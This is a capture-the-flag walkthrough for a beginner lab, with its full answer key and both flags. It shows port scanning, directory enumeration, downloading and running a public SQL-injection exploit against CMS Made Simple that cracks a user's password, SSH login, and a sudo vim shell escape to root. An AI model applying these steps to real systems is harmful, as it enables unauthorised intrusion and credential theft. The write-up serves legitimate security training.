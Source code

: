 # Simple CTF

## Information

**Tags**: Security, Enumeration, Privesc  
**Description**: Beginner level ctf  
**Difficulty**: Easy  
**Author**: MrSeth6797

## Task

Deploy the machine and attempt the questions!

## Flags

1. How many services are running under port 1000?
   - 2
2. What is running on the higher port?
   - ssh
3. What's the CVE you're using against the application?
   - CVE-2019-9053
4. To what kind of vulnerability is the application vulnerable?
   - sqli
5. What's the password?
   - secret
6. Where can you login with the details obtained?
   - ssh
7. What's the user flag?
   - G00d j0b, keep up!
8. Is there any other user in the home directory? What's its name?
   - sunbath
9. What can you leverage to spawn a privileged shell?
   - vim
10. What's the root flag?
    - W3ll d0n3. You made it!

## Solution

First things first, this exercise is an introductory to webhacking and CTF, so it's pretty straightforward.  
The first question is "How many services are running under port 1000?", to find this value we just need to map the open ports. We can do so using an nmap.

```sh
$ nmap -A $ip
```

Doing this we'll get the following result:

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
|_ftp-bounce: bounce working!
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.6.3.44
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: ERROR
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Now we know that there are three open ports, the 21, the 80 and the 2222, so **the amount of services running under port 1000 is 2**, answering the first question as well as the second question. **The higher port is 2222, and there is an ssh running in it**.

The next step is finding out where is this ssh server, we can use any dirbuster, personally I prefer gobuster so I'll be using it

```sh
$ gobuster dir -u $ip -w $path_to_wordlist
```

The result should look like this:

```sh
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     $ip
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                $path_to_wordlist
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/19 11:52:20 Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 313] [--> $ip/simple/]

===============================================================
2022/10/19 12:26:20 Finished
===============================================================
```

Now we know that the ssh server is located at **$ip/simple**, now we need to access the website and extract information from it somehow, we can use a chrome extension called [Wappalyzer](https://chrome.google.com/webstore/detail/wappalyzer-technology-pro/gppongmhjkpfnbhagpmjfkannfbllamg) but in this case we just need to read what is in the webpage. There's a copyright section indicating the usage of **CMS Made Simple version 2.2.8**.

Now we can start looking for exploits, after a quick search I found one exploit that fills all our needs: [CMS Made Simple < 2.2.10 - SQL Injection](https://www.exploit-db.com/exploits/46635). This give us the third and fourth questions' answers, **CVE-2019-9053** and **SQLInjection**, or **sqli** for short.

We just need to download, add the .py extension and run it.

```sh
$ wget https://www.exploit-db.com/raw/46635
$ mv 46635 46635.py
$ python2 46635.py
```

Running the code we get the following message telling us information on how to use it:

```sh
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u http://target-uri
[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
```

So now we run:

```sh
$ python2 46635.py -u $ip/simple --crack -w $path_to_wordlist
```

With this command, the code starts running looking for users and passwords on the CMS service, after it finishes we get a result.

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

There we have it, the credentials of mitch, an user of the attacked service. Answering the fifth of our questions, the password is **secret**.

The next step answers the sixth question, **we can login via ssh with using the cracked credentials**.

```sh
$ ssh mitch@$ip -p 2222
secret
```

After we're in, let's check who we are and what super user permissions we have access to.

```sh
$ whoami
mitch
```

```sh
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

We are indeed mitch and have vim sudo privileges. Let's start looking for information, first things first let's check the home folder.

```sh
$ ls
user.txt

$ cat user.txt
G00d j0b, keep up!

$ cd ..

$ ls
mitch  sunbath
```

We got the flag **G00d j0b, keep up!**, the seventh answer in the home folder and transitioning to higher folders we got the eight answer, the name of the other user in the home directory is **sunbath**.

And last but not least, we will **use vim to leverage our privileges and spawn a privileged shell**, answering the ninth question. To do so we just need to open vim with sudo, and use !sh to access the shell without exiting vim.

```sh
$ sudo vim
$ !sh
```

Now what's left is to navigate through the folder looking for sensitive information, in this case there is a flag in the root user folder. The answer of the final question.

```sh
$ whoami
root

$ cd ..
$ cd root
$ cat root.txt
W3ll d0n3. You made it!
```
